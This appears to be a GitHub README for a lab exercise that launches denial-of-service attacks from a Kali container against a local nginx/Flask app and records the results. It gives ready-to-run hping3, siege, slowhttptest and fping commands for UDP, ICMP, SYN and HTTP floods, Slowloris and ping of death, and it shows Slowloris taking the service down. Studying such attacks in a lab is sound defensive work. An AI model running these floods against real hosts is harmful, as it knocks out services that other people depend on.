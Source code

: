 # Tasks
* create attacker Kali linux container (using UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death attacks)
* create defender container
* measure attacker vs non-defended container and attacker vs properly defended container

# Additional resource
* https://pentest.blog/how-to-perform-ddos-test-as-a-pentester/

# App
Is a simple nginx ([image link](https://hub.docker.com/_/nginx)) which proxies request to Flask app that returns 200 "Ok".

# Kali Linux

Used `kalilinux/kali-rolling` see [link](https://www.kali.org/docs/containers/using-kali-docker-images/)

## Udp flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source --udp -p 8080 nginx
```

## ICMP flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source -1 -p 8080 nginx
```

## HTTP flood
used [siege](https://www.kali.org/tools/siege/)
```
    $ siege -b -c250 -t60s http://nginx:8080
```

## Slowloris attack
used Kali package [slowhttptest](https://www.kali.org/tools/slowhttptest/)
```
    $ slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://nginx:8080 -x 24 -p 3
```

## Syn flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 -S --flood -V -p 8080 nginx
```


## Ping of death
used [fping](https://www.kali.org/tools/fping/)
```
    $ fping -b 65510 nginx
```

# Results

Following command used to determine health of our application
```
    $ siege -d1 -c50 -t60s http://localhost:8080
```
Example normal report
```
Transactions:		        5831 hits
Availability:		      100.00 %
Elapsed time:		       59.38 secs
Data transferred:	        0.01 MB
Response time:		        0.01 secs
Transaction rate:	       98.20 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		        0.90
Successful transactions:        5831
Failed transactions:	           0
Longest transaction:	        0.16
Shortest transaction:	        0.00
```

Also we'll monitor docker stats using [TIG stack](https://hackmd.io/@lnu-iot/tig-stack)

## standart nginx config without additional defence

* udp flood

This attack doesn't seem to affect our application (possibly because we're not listening to udp ports :D ).
The only thing we can track is increased amount of incomming traffic to nginx container:
![Screenshot from 2022-01-03 18-21-29](https://user-images.githubusercontent.com/19594637/147954476-4faface4-860d-4d0e-b1b2-3bcc42e3a565.png)


* icmp flood

This attack doesn't seem to work on nginx:1.21. Since our `siege` command reports normal results:
```
Transactions:		        5866 hits
Availability:		      100.00 %
Elapsed time:		       59.32 secs
Data transferred:	        0.01 MB
Response time:		        0.00 secs
Transaction rate:	       98.89 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		        0.37
Successful transactions:        5866
Failed transactions:	           0
Longest transaction:	        0.11
Shortest transaction:	        0.00
```
We can only observe increase traffic on nginx container:
![Screenshot from 2022-01-03 18-35-30](https://user-images.githubusercontent.com/19594637/147955909-0c201d5c-0cc0-4139-986a-9d0f87fbc552.png)


* http flood

Using one kali linux container the only thing I could achieve is to siginficantly increase response times of the application:
```
Transactions:		        2897 hits
Availability:		      100.00 %
Elapsed time:		       59.32 secs
Data transferred:	        0.01 MB
Response time:		        0.52 secs
Transaction rate:	       48.84 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		       25.59
Successful transactions:        2897
Failed transactions:	           0
Longest transaction:	       14.40
Shortest transaction:	        0.09
```
Also we can observe increase CPU and traffic on our nginx container:
![Screenshot from 2022-01-03 18-58-40](https://user-images.githubusercontent.com/19594637/147958096-40632afc-3a05-4c6c-bd23-6d0bdfe4923e.png)


* slowloris attack

Once we've reached 1022 connection we'll successfuly DOSed our service
```
slow HTTP test status on 35th second:

initializing:        0
pending:             0
connected:           1022
error:               0
closed:              28
service available:   NO
```
And our siege command results show us that our application was unable to server requests
```
siege aborted due to excessive socket failure; you
can change the failure threshold in $HOME/.siegerc

Transactions:		         512 hits
Availability:		       33.33 %
Elapsed time:		       16.26 secs
Data transferred:	        0.00 MB
Response time:		        0.02 secs
Transaction rate:	       31.49 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		        0.65
Successful transactions:         512
Failed transactions:	        1024
Longest transaction:	        0.07
Shortest transaction:	        0.00
```
What is really dangerous about this kind of attack is that it does not seems to be easy to track using metrics (the only spike for nginx container is RAM)
![Screenshot from 2022-01-03 18-11-12](https://user-images.githubusercontent.com/19594637/147953506-abca9fc6-685f-4faf-9e31-4055c1146df2.png)

* syn flood

Doesn't seem to bother our application availability:
```
Lifting the server siege...
Transactions:		       98327 hits
Availability:		      100.00 %
Elapsed time:		      179.49 secs
Data transferred:	        0.19 MB
Response time:		        0.36 secs
Transaction rate:	      547.81 trans/sec
Throughput:		        0.00 MB/sec
Concurrency:		      199.59
Successful transactions:       98327
Failed transactions:	           0
Longest transaction:	        3.20
Shortest transaction:	        0.00

```
![Screenshot from 2022-01-04 13-53-13](https://user-images.githubusercontent.com/19594637/148055345-17b2e7a6-76ce-4b5a-911d-7f21816a8fa5.png)
